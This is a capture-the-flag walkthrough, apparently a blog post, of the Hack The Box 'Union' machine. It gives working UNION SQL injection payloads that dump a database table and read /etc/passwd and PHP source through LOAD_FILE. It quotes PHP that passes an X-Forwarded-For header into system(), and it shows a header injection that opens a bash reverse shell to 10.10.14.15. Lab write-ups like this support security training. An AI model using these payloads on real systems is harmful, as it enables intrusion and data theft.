 ```yaml
---
layout: post
title: "Union"
date: 2024-12-28
categories: hackthebox
---
```


first nmap scan , only port 80 is open 
![[Pasted image 20240524161744.png]]



There's definitely something here our input is checked on db , but how can we inject our sql query on it 
![[Pasted image 20240524164641.png]]

let's check sqlmap 
![[Pasted image 20240524162539.png]]

sqlmap didn't find anything 


but if we try a manual , UNION injection we can see a different response that may lead to sql injection

![[Pasted image 20240524164820.png]]

we can use this to enumerate database

the database used is ==november==
![[Pasted image 20240524164945.png]]
the use is ==uhc@localhost==
![[Pasted image 20240524165106.png]]

we an get the tables using 
`' UNION SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES Where table_schema='november'--  `
![[Pasted image 20240524165512.png]]

so the tables is ==flag==
we can try to read the content of this table using
`' UNION SELECT * from november.flag--  `
![[Pasted image 20240524165638.png]]

UHC{F1rst_5tep_2_Qualify} , if we take a look at challenge.php we will notice that the page is asking for a flag 

if we submit it , we can got ssh open to our ip
![[Pasted image 20240524170203.png]]

but we need credential to ssh into machine , let's try to read files on the machine using sql injection 
`' UNION SELECT LOAD_FILE('/etc/passwd')--  `
![[Pasted image 20240524170450.png]]

Now we can read file , let's read the php files 
if we check the firewall.php 

`' UNION SELECT LOAD_FILE('/var/www/html/firewall.php')--  `
![[Pasted image 20240524170736.png]]

we can see that we can inject code in header 
`<section class="bg-dark text-center p-5 mt-4">

<?php
  if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
  } else {
    $ip = $_SERVER['REMOTE_ADDR'];
  };
  system("sudo /usr/sbin/iptables -A INPUT -s " . $ip . " -j ACCEPT"); 
?>
              

if we use HTTP_X_FORWARDED_FOR we can inject our code into this header

``
`X-FORWARDED-FOR: ;bash -c 'exec bash -i &>/dev/tcp/10.10.14.15/1337 <&1';

![[Pasted image 20240524175113.png]]

![[Pasted image 20240524175152.png]]

